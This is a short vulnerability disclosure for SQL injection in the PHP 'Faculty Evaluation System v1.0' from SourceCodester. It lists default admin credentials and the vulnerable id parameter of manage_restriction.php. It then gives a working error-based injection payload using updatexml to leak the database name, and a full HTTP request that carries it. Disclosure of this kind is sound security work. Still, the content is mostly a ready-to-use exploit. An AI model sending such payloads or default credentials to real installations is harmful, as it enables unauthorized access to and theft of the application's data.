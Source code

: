 # Faculty Evaluation System v1.0 by oretnom23 has SQL injection

Admin account password： admin@admin.com/admin123
 
BUG_Author: f0llow

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /eval/admin/manage_restriction.php?id=

Vulnerability location: /eval/admin/manage_restriction.php?id=, id

dbname =evaluation_db

[+] Payload: /eval/admin/manage_restriction.php?id=3%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /eval/admin/manage_restriction.php?id=3%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lrrse02i69soj9l3lnarhnd9ck
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/233827777-ac34a574-3579-4edf-8bcb-6a695d5da783.png)
